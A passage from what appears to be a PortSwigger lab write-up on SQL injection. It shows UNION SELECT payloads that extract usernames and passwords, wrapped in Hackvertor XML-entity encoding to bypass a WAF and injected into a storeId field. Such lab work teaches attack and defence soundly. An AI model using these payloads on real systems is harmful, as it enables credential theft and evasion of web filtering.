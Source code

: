 First, I constructed the query I wanted:

```sql
1 UNION Select username, password FROM users--
```

Using Hackvertor just added some XML encoding for me:

```
<@dec_entities>1 UNION Select username, password FROM users--<@/dec_entities>
```

Sending the above works! The WAF will be bypassed:

![](../../.gitbook/assets/sq
l-injection-portswigger-writeup-image-9.png)

To get the stuff I want out, can concatenate the strings using `||`

```sql
<@dec_entities>1 UNION Select username || password FROM users<@/dec_entities>
```

This payload works when injected into the `storeId` tag:

![](../../.gitbook/assets/sql-injection-portswigger-writeup-image-10.png)